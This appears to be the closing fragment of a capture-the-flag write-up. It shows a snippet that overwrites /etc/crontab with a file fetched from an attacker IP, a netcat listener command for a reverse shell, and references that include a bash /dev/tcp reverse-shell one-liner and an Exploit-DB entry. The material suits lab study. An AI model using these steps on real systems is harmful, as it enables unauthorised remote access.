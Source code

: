 ```bash
url = "http://10.10.17.201/crontab"
output = "/etc/crontab"
```

##### Listen for connection

	rlwrap nc -lvnp 1234

# References

<iframe width="560" height="315" src="https://www.youtube.com/embed/Paajc2Dupms" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html

[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261

[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency